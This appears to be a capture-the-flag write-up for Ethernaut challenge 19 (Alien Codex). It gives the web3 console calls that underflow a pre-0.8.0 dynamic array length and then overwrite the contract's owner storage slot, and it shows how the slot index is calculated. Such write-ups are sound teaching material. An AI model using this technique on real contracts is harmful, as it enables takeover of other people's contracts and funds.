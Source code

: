 # Ethernaut challenge 19 Alien Codex

## Hack:

- `await contract.make_contact()`// Change contract bool to true
- `await web3.eth.getStorageAt(contract.address, 0, console.log);` // display current owner and bool (contact) value packed.

- `await contract.retract();` // Call retract function and decrement the codex length. This is possible because the compiler version is less than 0.8.0 and there is no underflow protection lib. With the length of codex now at 2 ** 256 -1 32 byte slots we are now able to overwrite any data we would like. 

- `await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x0000000000000000000000005f1bC8fD0059aa02a270d2e31375190cb4e156aF', {from:player, gas: 900000});` // Where the first argument is the location in memory, and the second, your wallet address.

## Calculating the first arg:

We can see below that the codex length will be in slot 1 (owner address and bool value will be packed into slot 0). So we will begin with `keccak256(bytes32(1))` to locate the begining of the dynamic array in memory and work backwards `index = 2 ** 256 - uint(beginingOfArray)`

```
Array data is located starting at keccak256(p) and it is laid out in the same way as statically-sized array data would: One element after the other, potentially sharing storage slots if the elements are not longer than 16 bytes. 
```

See https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html To better under stand the above calculations for finding the `owner` value of the contract.




